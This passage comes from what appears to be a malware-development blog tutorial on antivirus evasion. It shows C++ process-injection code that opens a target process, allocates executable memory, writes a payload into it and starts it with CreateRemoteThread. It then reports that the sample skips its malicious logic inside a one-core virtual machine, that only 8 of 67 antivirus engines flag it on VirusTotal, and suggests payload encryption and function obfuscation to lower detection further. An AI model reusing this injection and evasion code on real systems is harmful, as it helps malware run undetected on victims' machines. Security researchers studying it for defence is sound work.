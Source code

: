 ```cpp
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
    printf("PID: %i", pid);

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // "copy" data between processes
    WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

    // our process start new thread
    rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
    CloseHandle(ph);
    return 0;
  }
}
```

Let's go to compile:

![av 4](/assets/images/34/2021-12-26_18-55.png){:class="img-responsive"}    

and run in our victim's machine (Windows 10 x64):   

![av 5](/assets/images/34/2021-12-26_18-57.png){:class="img-responsive"}   

As you can see, our malicious logic did not start as we are in a virtual machine with 1 core CPU.    

Let's go to upload this variant to VirusTotal:    

![av 6](/assets/images/34/2021-12-26_19-02.png){:class="img-responsive"}   

[https://www.virustotal.com/gui/file/5658fd8d326dcbb01492c0d5644cdeb69dc8d64acbf939a91b25a3caa53f7a61/detection](https://www.virustotal.com/gui/file/5658fd8d326dcbb01492c0d5644cdeb69dc8d64acbf939a91b25a3caa53f7a61/detection)

**So, 8 of 67 AV engines detect our file as malicious.**

As usually, for better result, we can add payload [encryption](/tutorial/2021/09/04/simple-malware-av-evasion.html) with key or [obfuscate functions](/tutorial/2021/09/06/simple-malware-av-evasion-2.html), or combine both of this techniques.

To conclude these examples show it is pretty simple to bypass AV when you exploit their weaknesses. It only requires some knowledge on windows system and how AV works.    

Also we can try to detect devices and vendor names of our machine, search VM-specific artifacts, check file, process or windows names, check screen resolution, etc. I will show these techniques and real examples in the future in separate posts.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[The Antivirus Hacker's Handbook](https://www.amazon.com/Antivirus-Hackers-Handbook-Joxean-Koret/dp/1119028752)    
[Wikileaks - Bypass AV Dynamic Analysis](https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf)    
[DeepSec 2013 Talk: The Joys of Detecting Malicious Software](https://blog.deepsec.net/deepsec-2013-talk-easy-ways-to-bypass-anti-virus-systems/)    
[IsDebuggerPresent](https://docs.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-isdebuggerpresent)    
[VirtualAllocExNuma](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma)    
[NUMA Support](https://docs.microsoft.com/en-us/windows/win32/procthread/numa-support)    
[Source code on Github](https://github.com/cocomelonc/2021-12-21-simple-malware-av-evasion-3)    

